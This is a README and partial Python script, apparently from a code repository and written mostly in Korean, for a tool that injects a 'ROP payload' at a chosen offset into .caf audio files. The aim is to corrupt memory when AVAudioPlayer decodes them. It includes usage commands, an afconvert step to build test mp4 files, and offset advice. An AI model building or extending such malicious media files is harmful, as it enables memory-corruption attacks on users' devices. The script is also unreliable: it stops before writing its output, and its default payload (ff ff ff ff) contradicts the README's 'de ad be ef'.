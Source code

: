 
# 🎯 APAC ROP Payload 자동 삽입 도구

## 📦 파일: `inject_rop_payload.py`

이 도구는 `.caf` 파일(또는 다른 오디오 데이터 파일)의 지정된 위치에 **ROP payload**를 삽입합니다.

---

## ⚙️ 사용법

```bash
python inject_rop_payload.py input.caf output_patched.caf [offset]
```

- `input.caf`: 원본 오디오 파일 (예: encodeme로 생성)
- `output_patched.caf`: 패치된 파일 저장 위치
- `offset`: 삽입 위치 (기본값 0x100)

---

## 🧨 삽입되는 기본 payload

```hex
de ad be ef
```

예: 리틀 엔디안 시스템에서 함수 포인터나 리턴 주소 overwrite를 구성하는 데 사용 가능

---

## 💥 사용 예시

```bash
python inject_rop_payload.py output.caf rop.caf 0x200
```

이후 `afconvert`를 사용하여 `.mp4`로 변환하여 AVPlayer 또는 LLDB로 실험 가능:

```bash
afconvert -o output.mp4 -f mp4f -d apac rop.caf
```

---

## 🔍 참고

- 삽입 위치는 `frame[]` 버퍼로 접근 가능한 주소 범위 내여야 함
- AVAudioPlayer가 해당 위치를 디코딩 중 접근하게 되면 **메모리 오염 발생**



```python

# File: inject_rop_payload.py
# Description: Patch a .caf (or raw audio) file by injecting a ROP-style payload

import sys

def inject_payload(input_file, output_file, offset=0x100, payload=b'\xff\xff\xff\xff'):
    with open(input_file, 'rb') as f:
        data = bytearray(f.read())

    if offset + len(payload) > len(data):
        print("[-] Payload would exceed file bounds.")
        return

```